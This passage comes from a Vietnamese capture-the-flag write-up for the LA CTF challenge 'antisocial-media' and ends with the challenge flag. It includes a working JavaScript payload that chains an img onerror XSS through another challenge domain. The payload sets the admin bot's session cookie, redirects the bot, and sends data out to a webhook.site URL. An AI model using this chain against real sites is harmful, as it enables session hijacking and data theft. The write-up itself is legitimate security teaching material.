 nhưng làm sao để admin bot đi vào trang đang dính xss trên? Ta biết rằng không thể set cookie của admin nên không thể redirect nó tới trang trên. Lúc này thì mình nghĩ ra là sẽ xài web khác để insert js vào và add cookie để redirect

Và mình có payload như sau : 

```js
<script>
const chall = "https://antisocial-media.chall.lac.tf"
const webhook = "https://webhook.site/6f12b62f-17ac-4e07-ba5d-5d01df9ebfa0"
const id = ...
const html = `<img src=x onerror='document.cookie="connect.sid=\${id}; domain=.chall.lac.tf; path=/profile"; window.location="${chall}/profile";'>`;

window.name = "{{webhook}}?";
window.location = "https://purell.chall.lac.tf/level/start?html=" + encodeURIComponent(html);
</script>
```

Trong đó id là connect.sid của trang mình vừa thêm các note XSS vào. Cuối cùng host đoạn script trên và gửi cho admin bot để vào là xong 

Thực hiện đủ các bước thì ta có flag tại webhook

![image](https://hackmd.io/_uploads/HkEOwSeqJg.png)

`Flag: lactf{50_50CiaL_y0u_CaN_57Ill_937_HAx0R3D}`

## gigachessbased

Updating...